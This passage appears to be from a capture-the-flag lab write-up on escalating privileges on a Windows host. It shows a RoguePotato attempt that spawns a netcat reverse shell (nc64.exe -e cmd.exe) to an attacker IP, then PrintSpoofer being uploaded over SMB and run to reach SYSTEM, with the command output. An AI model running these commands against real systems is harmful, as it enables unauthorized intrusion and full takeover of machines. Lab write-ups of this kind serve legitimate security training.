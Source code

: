 roguewinrm.exe -p "nc64.exe" -a "-e cmd.exe 10.11.72.190 4442"

Listening for connection on port 5985 ....

Error: WinRM already running on port 5985. Unexploitable!

bind failed with error: 10013

netstat -ano | findstr 5985

TCP 0.0.0.0:5985 0.0.0.0:0 LISTENING 4

### **Attempt privilege escalation using**[ **PrintSpoofer**](https://github.com/itm4n/PrintSpoofer) **()** <a href="#id-3tv5c2e67qwh" id="id-3tv5c2e67qwh"></a>

**Download binary to attack host**

wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

**Upload binary to target host using SMB**

mbclient //TARGET\_IP/nt4wrksv

Password for \[WORKGROUP\kali]:

Try "help" to get a list of possible commands.

smb: \\> put PrintSpoofer64.exe

putting file PrintSpoofer64.exe as \PrintSpoofer64.exe (112.8 kb/s) (average 112.8 kb/s)

**Run exploit on target host**

cd c:/inetpub/wwwroot

printspoofer64.exe -i -c cmd

\[+] Found privilege: SeImpersonatePrivilege

\[+] Named pipe listening...

\[+] CreateProcessAsUser() OK

Microsoft Windows \[Version 10.0.14393]

(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami

nt authority\system

**Find root flag**

dir "root.txt" /s

\[...snip...]

Directory of C:\Users\Administrator\Desktop

07/25/2020 07:25 AM 35 root.txt

1 File(s) 35 bytes

\[...snip...]

### **49667/tcp** <a href="#y36ufs66zogk" id="y36ufs66zogk"></a>

* Not checked.

### **49669/tcp** <a href="#eeknf3i6ig5" id="eeknf3i6ig5"></a>

* Not checked.

